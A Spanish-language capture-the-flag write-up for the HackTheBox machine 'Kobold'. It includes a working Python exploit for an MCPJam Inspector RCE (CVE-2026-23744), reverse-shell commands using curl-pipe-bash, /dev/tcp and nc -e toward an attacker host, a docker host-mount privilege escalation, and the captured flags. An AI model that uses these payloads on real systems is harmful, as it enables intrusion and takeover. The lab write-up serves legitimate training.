







# Kobold HackTheBox (Easy)

# Contexto de la maquina

## Trayectoria Kobold

<figure><figcaption></figcaption></figure>

## Descripción

Kobold es una máquina orientada a la explotación de servicios web modernos desplegados sobre múltiples subdominios. El escenario combina vulnerabilidades en aplicaciones web, ejecución remota de comandos (RCE) y escalada de privilegios mediante abuso de grupos del sistema y Docker.

**Objetivo del reto:**

- Obtener acceso inicial al sistema mediante explotación web.
- Escalar privilegios hasta obtener acceso como `root`.
- Capturar las flags de usuario y root.

**Tipo de máquina:**

- Linux
- Web (multi-servicio, subdominios)

**Habilidades y técnicas evaluadas:**

- Enumeración de servicios y subdominios
- Identificación de software vulnerable
- Explotación de RCE en aplicaciones web
- Manejo de reverse shells
- Enumeración de grupos y permisos en Linux
- Escalada de privilegios mediante Docker
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

# Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-23 10:52 -0400
Nmap scan report for 10.129.18.131
Host is up (0.038s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
443/tcp  open  ssl/http nginx 1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-title: Did not follow redirect to https://kobold.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
3552/tcp open  http     Golang net/http server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Length: 2081
|     Content-Type: text/html; charset=utf-8
|     Expires: 0
|     Pragma: no-cache
|     Date: Mon, 23 Mar 2026 14:52:41 GMT
|     <!doctype html>
|     <html lang="%lang%">
|     <head>
|     <meta charset="utf-8" />
|     <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
|     <meta http-equiv="Pragma" content="no-cache" />
|     <meta http-equiv="Expires" content="0" />
|     <link rel="icon" href="/api/app-images/favicon" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" />
|     <link rel="manifest" href="/app.webmanifest" />
|     <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" />
|     <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" />
|_    <link rel="modu
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3552-TCP:V=7.98%I=7%D=3/23%Time=69C153B8%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,8FF,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20no-store,\x20must-revalidate
SF:\r\nContent-Length:\x202081\r\nContent-Type:\x20text/html;\x20charset=u
SF:tf-8\r\nExpires:\x200\r\nPragma:\x20no-cache\r\nDate:\x20Mon,\x2023\x20
SF:Mar\x202026\x2014:52:41\x20GMT\r\n\r\n<!doctype\x20html>\n<html\x20lang
SF:=\"%lang%\">\n\t<head>\n\t\t<meta\x20charset=\"utf-8\"\x20/>\n\t\t<meta
SF:\x20http-equiv=\"Cache-Control\"\x20content=\"no-cache,\x20no-store,\x2
SF:0must-revalidate\"\x20/>\n\t\t<meta\x20http-equiv=\"Pragma\"\x20content
SF:=\"no-cache\"\x20/>\n\t\t<meta\x20http-equiv=\"Expires\"\x20content=\"0
SF:\"\x20/>\n\t\t<link\x20rel=\"icon\"\x20href=\"/api/app-images/favicon\"
SF:\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1,\x20maximum-scale=1,\x20viewport-fit=cover\"\x20/>\
SF:n\t\t<link\x20rel=\"manifest\"\x20href=\"/app\.webmanifest\"\x20/>\n\t\
SF:t<meta\x20name=\"theme-color\"\x20content=\"oklch\(1\x200\x200\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20light\)\"\x20/>\n\t\t<meta\x20name=\"
SF:theme-color\"\x20content=\"oklch\(0\.141\x200\.005\x20285\.823\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20dark\)\"\x20/>\n\t\t\n\t\t<link\x20re
SF:l=\"modu")%r(HTTPOptions,8FF,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20no-store,\x20must-revalidate
SF:\r\nContent-Length:\x202081\r\nContent-Type:\x20text/html;\x20charset=u
SF:tf-8\r\nExpires:\x200\r\nPragma:\x20no-cache\r\nDate:\x20Mon,\x2023\x20
SF:Mar\x202026\x2014:52:41\x20GMT\r\n\r\n<!doctype\x20html>\n<html\x20lang
SF:=\"%lang%\">\n\t<head>\n\t\t<meta\x20charset=\"utf-8\"\x20/>\n\t\t<meta
SF:\x20http-equiv=\"Cache-Control\"\x20content=\"no-cache,\x20no-store,\x2
SF:0must-revalidate\"\x20/>\n\t\t<meta\x20http-equiv=\"Pragma\"\x20content
SF:=\"no-cache\"\x20/>\n\t\t<meta\x20http-equiv=\"Expires\"\x20content=\"0
SF:\"\x20/>\n\t\t<link\x20rel=\"icon\"\x20href=\"/api/app-images/favicon\"
SF:\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1,\x20maximum-scale=1,\x20viewport-fit=cover\"\x20/>\
SF:n\t\t<link\x20rel=\"manifest\"\x20href=\"/app\.webmanifest\"\x20/>\n\t\
SF:t<meta\x20name=\"theme-color\"\x20content=\"oklch\(1\x200\x200\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20light\)\"\x20/>\n\t\t<meta\x20name=\"
SF:theme-color\"\x20content=\"oklch\(0\.141\x200\.005\x20285\.823\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20dark\)\"\x20/>\n\t\t\n\t\t<link\x20re
SF:l=\"modu");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.16 seconds
```

De este escaneo podemos extraer varios puntos relevantes:

- Puerto **22 (SSH)** accesible, potencial vector de acceso posterior.
- Puertos **80 y 443 (HTTP/HTTPS)** sirviendo contenido mediante **nginx**.
- Puerto **3552** ejecutando un servidor HTTP basado en **Golang**, lo cual no es tan común y resulta especialmente interesante para enumeración.

Además, observamos que el servicio web en los puertos 80/443 redirige a un dominio:

```
kobold.htb
```

Por lo tanto, lo añadimos a nuestro archivo `/etc/hosts` para poder resolverlo correctamente:

```shell
nano /etc/hosts

#Dentro del nano
<IP>         kobold.htb
```
## Enumeración del servicio en puerto 3552

Antes de centrarnos en el dominio, accedemos directamente al servicio expuesto en el puerto ``3552``:

```
URL = http://<IP>:3552/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos una interfaz de login aparentemente estándar. Sin embargo, identificamos que está basada en un software llamado **Arcane**, concretamente en su versión `1.13.0`.

Un detalle interesante es que la propia aplicación incluye un enlace a su repositorio en GitHub, lo que nos permite analizar su funcionamiento interno si fuera necesario.

Procedemos a buscar vulnerabilidades conocidas para esta versión y encontramos una asociada:

- `CVE-2026-23520`

No obstante, tras una búsqueda inicial, no se encuentra un exploit público claro o documentación suficiente para su explotación directa, por lo que decidimos dejar esta vía en espera y continuar con la enumeración.
## Enumeración del dominio principal

Accedemos al dominio principal:

```
URL = http://kobold.htb/
```

El servidor redirige automáticamente a ``HTTPS``:

<figure><figcaption></figcaption></figure>

Tras inspeccionar la página, no se observa contenido relevante a simple vista, por lo que pasamos a una fase de enumeración más activa.
# Fuzzing de subdominios (FFUF)

Dado que estamos trabajando con un dominio, realizamos un **fuzzing de subdominios** utilizando `ffuf`:

```shell
ffuf -u https://kobold.htb -H "Host: FUZZ.kobold.htb" -w <WORDLIST> -fs 154
```

Respuesta:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://kobold.htb
 :: Wordlist         : FUZZ: /home/kali/Downloads/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.kobold.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

bin                     [Status: 200, Size: 24402, Words: 1218, Lines: 386, Duration: 47ms]
mcp                     [Status: 200, Size: 466, Words: 57, Lines: 15, Duration: 45ms]
```

Esto nos revela dos subdominios válidos:

- `mcp.kobold.htb`
- `bin.kobold.htb`

Los añadimos al archivo `/etc/hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>           kobold.htb msc.kobold.htb bin.kobold.htb
```
## Análisis de subdominios

### Subdominio MCP

Accedemos a:

```
URL = http://msc.kobold.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos una interfaz web correspondiente a un servicio llamado **MCPJam Inspector**, aunque no se especifica claramente la versión.
### Subdominio BIN

Accedemos al segundo subdominio:

```
URL = http://bin.kobold.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

En este caso, identificamos que el servicio corresponde a **PrivateBin v2.0.2**.

Ambos servicios resultan interesantes, pero tras realizar un análisis de versiones y búsqueda de vulnerabilidades:

- **PrivateBin v2.0.2** → No presenta vulnerabilidades relevantes para este escenario.
- **MCPJam Inspector** → No conocemos la versión exacta, pero encontramos vulnerabilidades recientes asociadas.

Por ello, centramos el foco en **MCPJam Inspector**.
# Escalada a usuario `ben`

## Explotación de CVE-2026-23744

<figure><figcaption></figcaption></figure>

Investigando sobre MCPJam Inspector, encontramos una vulnerabilidad crítica identificada como **CVE-2026-23744**, que afecta a versiones inferiores a la `1.4.2` y permite la **ejecución remota de comandos (RCE)**.

Aunque no se especifica la versión exacta en el servidor, asumimos que puede ser vulnerable.

Existe información técnica en el siguiente advisory:

URL = [Info CVE-2026-23744 GitHub](https://github.com/advisories/GHSA-232v-j27c-5pp6)

Además, encontramos un **PoC público** que automatiza la explotación, el cual adaptamos ligeramente a nuestro entorno.

URL = [Exploit CVE-2026-23744 GItHub](https://github.com/boroeurnprach/CVE-2026-23744-PoC)
## Preparación del exploit

Modificamos el script `exploit.py` para adaptarlo al objetivo. Este exploit envía una petición al endpoint:

```
/api/mcp/connect
```

Vamos a modificar ese ``exploit.py`` por este:

> exploit.py

```python
#!/usr/bin/env python3
import subprocess
import time
import requests
import os
import sys
import urllib3

# Deshabilitar advertencias de SSL inseguro
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def reproduce(target_domain, command):
    print(f"[*] Target: https://{target_domain}")
    print(f"[*] Command: {command}")
    print(f"[*] Waiting for server to start on port 443...")
    
    start_time = time.time()
    server_ready = False
    
    # Esperar a que el servidor esté accesible (HTTPS con certificado autofirmado)
    while time.time() - start_time < 30:
        try:
            # Usar verify=False para ignorar certificado autofirmado
            response = requests.get(f"https://{target_domain}", timeout=2, verify=False)
            if response.status_code == 200:
                server_ready = True
                print("[+] Server responded with 200 OK")
                break
            else:
                print(f"[*] Server responded with status: {response.status_code}")
        except requests.exceptions.ConnectionError as e:
            print(f"[*] Connection error (retrying): {e}")
            time.sleep(1)
            continue
        except Exception as e:
            print(f"[*] Other error: {e}")
            time.sleep(1)
            continue
    
    if not server_ready:
        print("[!] Server failed to respond in time, but continuing anyway...")
    
    print("[*] Sending exploit payload...")
    exploit_url = f"https://{target_domain}/api/mcp/connect"
    
    # Construir payload según el CVE-2026-23744
    cmd = "sh"
    args = ["-c", command]
    
    payload = {
        "serverConfig": {
            "command": cmd,
            "args": args,
            "env": {
                "DISPLAY": os.environ.get("DISPLAY", ":0")
            }
        },
        "serverId": "rce_test"
    }
    
    print(f"[*] Sending POST to: {exploit_url}")
    print(f"[*] Payload: {payload}")
    
    try:
        # Usar verify=False para HTTPS con certificado autofirmado
        response = requests.post(exploit_url, json=payload, timeout=5, verify=False)
        print(f"[*] Server responded: {response.status_code}")
        print(f"[*] Response body: {response.text[:500] if response.text else '(empty)'}")
    except requests.exceptions.Timeout:
        print("[*] Request timed out (may indicate successful command execution)")
    except requests.exceptions.ConnectionError as e:
        print(f"[*] Connection error: {e}")
        print("[*] This may be expected if the command execution disrupted the connection")
    except Exception as e:
        print(f"[*] Request failed: {e}")
    
    print("[+] Payload sent.")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} <target_domain> '<command>'")
        print(f"Examples:")
        print(f"  {sys.argv[0]} mcp.kobold.htb 'id > /tmp/pwned.txt'")
        print(f"  {sys.argv[0]} mcp.kobold.htb 'curl http://10.10.15.228:8000/shell.sh | bash'")
        print(f"  {sys.argv[0]} mcp.kobold.htb 'nc -e /bin/bash 10.10.15.228 4444'")
        sys.exit(1)
    
    target_domain = sys.argv[1]
    command = sys.argv[2]
    
    reproduce(target_domain, command)
```

inyectando un payload que permite ejecutar comandos arbitrarios en el sistema.
Validación de la vulnerabilidad

Primero, levantamos un servidor HTTP local para comprobar conectividad:

```shell
python3 -m http.server 80
```

Ejecutamos el exploit con un comando simple:

```shell
python3 exploit.py mcp.kobold.htb 'curl http://<IP_ATTACKER>/'
```

Respuesta:

```
[*] Target: https://mcp.kobold.htb
[*] Command: curl http://10.10.15.228/
[*] Waiting for server to start on port 443...
[+] Server responded with 200 OK
[*] Sending exploit payload...
[*] Sending POST to: https://mcp.kobold.htb/api/mcp/connect
[*] Payload: {'serverConfig': {'command': 'sh', 'args': ['-c', 'curl http://10.10.15.228/'], 'env': {'DISPLAY': ':0'}}, 'serverId': 'rce_test'}
[*] Server responded: 500
[*] Response body: {"success":false,"error":"Connection failed for server rce_test: MCP error -32000: Connection closed","details":"MCP error -32000: Connection closed"}
[+] Payload sent.
```

Ahora si vamos a donde tenemos nuestro servidor de ``python3`` veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.18.131 - - [23/Mar/2026 11:49:07] "GET / HTTP/1.1" 200 -
```

Esto confirma que la vulnerabilidad es explotable y que tenemos ejecución remota de comandos.
## Obtención de reverse shell

Para obtener acceso interactivo, preparamos una **reverse shell**.
### Listener

```shell
nc -lvnp <PORT>
```
### Script de shell

Creamos un archivo `shell.sh`:

> shell.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1
```

Lo servimos mediante HTTP:

```shell
python3 -m http.server 80
```
### Ejecución del exploit

```shell
python3 exploit.py mcp.kobold.htb 'curl http://<IP_ATTACKER>/shell.sh | bash'
```

Respuesta:

```
[*] Target: https://mcp.kobold.htb
[*] Command: curl http://10.10.15.228/shell.sh | bash
[*] Waiting for server to start on port 443...
[+] Server responded with 200 OK
[*] Sending exploit payload...
[*] Sending POST to: https://mcp.kobold.htb/api/mcp/connect
[*] Payload: {'serverConfig': {'command': 'sh', 'args': ['-c', 'curl http://10.10.15.228/shell.sh | bash'], 'env': {'DISPLAY': ':0'}}, 'serverId': 'rce_test'}
[*] Request timed out (may indicate successful command execution)
[+] Payload sent.
```

Si volvemos donde tenemos ``listener``, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.15.228] from (UNKNOWN) [10.129.18.131] 38914
bash: cannot set terminal process group (1531): Inappropriate ioctl for device
bash: no job control in this shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ whoami
whoami
ben
```

Se confirma que hemos obtenido acceso como el usuario `ben`.
## Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez sanitizado la ``shell`` leeremos la ``flag`` del usuario.

> user.txt

```
dd2679a71fc62d38fbc0e68f2c18387b
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

Si hacemos ``id`` veremos lo siguiente:

```
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
```
### Observación

El usuario `ben` pertenece al grupo `operator` (GID 37). Este punto es relevante, ya que los grupos pueden otorgar permisos adicionales sobre determinados recursos del sistema.
## Enumeración del grupo `operator`

Para identificar qué archivos o directorios están asociados a este grupo, realizamos una búsqueda a nivel del sistema:

```shell
find / -group operator 2>/dev/null
```

Respuesta:

```
/privatebin-data
/privatebin-data/certs
/privatebin-data/certs/key.pem
/privatebin-data/certs/cert.pem
/privatebin-data/data
/privatebin-data/data/purge_limiter.php
/privatebin-data/data/bd
/privatebin-data/data/bd/b5
/privatebin-data/data/.htaccess
/privatebin-data/data/e3
/privatebin-data/data/traffic_limiter.php
/privatebin-data/data/salt.php
```

Observamos múltiples archivos relacionados con el servicio **PrivateBin**, aunque en este punto no parecen aportar una vía directa de escalada.
## Investigación del grupo

Para comprender mejor el alcance del grupo `operator`, listamos sus miembros:

```shell
getent group operator
```

Respuesta:

```
operator:x:37:ben,alice
```
### Descubrimiento clave

El grupo `operator` también incluye al usuario `alice`. Esto nos lleva a analizar sus pertenencias a otros grupos:

```shell
cat /etc/group | grep "alice"
```

Respuesta:

```
operator:x:37:ben,alice
docker:x:111:alice
alice:x:1002:
```

Aquí encontramos un punto crítico:  
**Alice pertenece al grupo `docker`**, lo cual es especialmente sensible, ya que este grupo permite interactuar con el daemon Docker con privilegios equivalentes a root.
## Abuso de herencia de privilegios con `sg`

<figure><figcaption></figcaption></figure>

Dado que compartimos el grupo `operator` con `alice`, podemos intentar **cambiar temporalmente de grupo** utilizando la herramienta `sg`, con el objetivo de ejecutar comandos como si perteneciéramos a otro grupo.

Probamos a ejecutar un comando como el grupo `docker`:

```shell
sg docker -c "docker images"
```

Respuesta:

```
REPOSITORY                    TAG       IMAGE ID       CREATED        SIZE
mysql                         latest    f66b7a288113   6 weeks ago    922MB
privatebin/nginx-fpm-alpine   2.0.2     f5f5564e6731   4 months ago   122MB
```

Esto confirma que podemos ejecutar comandos Docker, lo que en la práctica implica **capacidad de ejecución como root**.
## Escalada mediante Docker

Una técnica común en este escenario consiste en montar el sistema de archivos del host dentro de un contenedor, lo que nos permite acceder a rutas sensibles como `/root`.

```shell
sg docker -c "docker run -v /:/host --rm mysql ls -la /host/root/"
```

Respuesta:

```
total 87268
drwx------  7 root root     4096 Mar 22 23:25 .
drwxr-xr-x 22 root root     4096 Mar 16 20:57 ..
-rw-r--r--  1 root root       29 Mar 19 03:09 .bash_history
-rw-r--r--  1 root root     3106 Apr 22  2024 .bashrc
drwx------  2 root root     4096 Mar 15 21:23 .cache
drwxr-xr-x  3 root root     4096 Mar 15 21:23 .local
drwxr-xr-x  4 root root     4096 Mar 15 21:23 .npm
-rw-r--r--  1 root root      161 Apr 22  2024 .profile
drwx------  2 root root     4096 Mar 15 21:23 .ssh
-rwxr-xr-x  1 root root 89313464 Jan 15 01:05 arcane_linux_amd64
drwxr-xr-x  3 root root     4096 Mar 23 11:25 data
-rw-r-----  1 root root       33 Mar 22 23:25 root.txt
```

Se confirma la presencia de la flag en `/root/root.txt`.
## Lectura de la root flag

Finalmente, utilizamos el mismo enfoque para leer directamente el contenido del archivo:

```shell
sg docker -c "docker run -v /:/host --rm mysql cat /host/root/root.txt"
```

Respuesta:

```
117bca5c60ed895d3aa00c2efae9bbd9
```

**Conclusión**:

La escalada de privilegios se basa en:

1. Pertenencia al grupo `operator`
2. Identificación de otro usuario (`alice`) dentro del mismo grupo
3. Descubrimiento de que `alice` pertenece a `docker`
4. Uso de `sg` para ejecutar comandos como grupo `docker`
5. Abuso de Docker para acceder al sistema de archivos del host

De esta forma, conseguimos acceso a recursos privilegiados y finalmente a la **flag de root**.

> root.txt

```
117bca5c60ed895d3aa00c2efae9bbd9
```
